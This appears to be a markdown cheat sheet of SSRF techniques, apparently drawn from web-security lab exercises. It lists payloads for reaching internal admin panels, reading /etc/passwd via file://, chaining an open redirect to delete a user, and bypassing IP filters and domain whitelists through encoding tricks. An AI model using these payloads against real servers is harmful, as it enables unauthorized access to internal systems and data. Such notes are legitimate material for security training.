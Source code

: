 - Try to enter or replace the `url` with something like http://127.0.0.1:3306 or http://127.0.0.1/amdin and check the response.

- Look for `open redirection` in the page and try to use it with the `SSRF` injection.

		<a href="/product/nextProduct?currentProductId=4&amp;path=/product?productId=5">| Next product</a>

		stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

## SSRF Exploitation
- Scan address range, looking for admin panel etc...
- Scan every port on every addresses to find open ports.
- We can also read files from the server, but only if we use the proper schema (i.e for a HTTP request we would start the URL with "http://" -- in a similar manner if we start the URL with "file://" it would then try to read the files from the server itself).
	- file:///etc/passwd

## Bypass sanitazed input
- Using ipv6
	- http://[::]:3306
	- http://:::3306

- Using hexadecimal encoding
	- [http://2130706433](http://2130706433)
	- http://0x7f000001

- Using shorter address
	- http://127.1/admin

- Using double url encoding
	- http://127.1/%2561dmin

## Bypass domain whitelist
If a param only accept a specific url as the hostname, try that technique to bypass it.

```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 58

"External stock check host must be stock.weliketoshop.net"
```

- Try to put a username before the hostname and see if it is accepted by the server.

		stockApi=http://username%2523@stock.weliketoshop.net

- Try to put a `#` after the username to comment the last part of the url.

		stockApi=http://username#@stock.weliketoshop.net

- Try to double url encode the `#` with `%2523`

		stockApi=http://username%2523@stock.weliketoshop.net
